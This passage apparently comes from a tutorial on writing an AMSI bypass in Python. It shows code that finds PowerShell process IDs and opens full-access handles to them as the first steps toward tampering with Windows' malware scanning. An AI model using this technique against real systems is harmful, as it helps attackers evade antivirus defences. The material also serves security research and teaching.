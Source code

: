 We need to get programmatically the same results using Python.
We can make it using the `psutil` module:

```python
import psutil

def getPowershellPids():
    ppids = [pid for pid in psutil.pids() if psutil.Process(pid).name() == 'powershell.exe']
    return ppids

print(getPowershellPids())
```

And we get:

```console
PS C:\Users\aroldan> python3 .\amsibypass.py
[9936, 14580, 20424]
```

Task one done!

### Get a handle to the processes

Now, to be able to do something useful with those processes,
we need to get a handle to them.
The handle is basically an opaque interface
to a kernel-managed object,
a process in this case.
This can be done with something like this:

```python
from ctypes import *

KERNEL32 = windll.kernel32
PROCESS_ACCESS = (
    0x000F0000 |        # STANDARD_RIGHTS_REQUIRED
    0x00100000 |        # SYNCHRONIZE
    0xFFFF
)
process_handle = KERNEL32.OpenProcess(PROCESS_ACCESS, False, pid)
```

The `PROCESS_ACCESS` variable was obtained from
[here](https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)

Keep in mind
that you can only get a handle to processes you own.
Let's try to get a handle of `PID` `18104`
which is run under the `NT AUTHORITY\LOCAL SERVICE` user:

```powershell
PS C:\Users\aroldan> Get-Process -Id 18104 -IncludeUserName | select UserName,ProcessName

UserName                   ProcessName
--------                   -----------
NT AUTHORITY\LOCAL SERVICE svchost
```
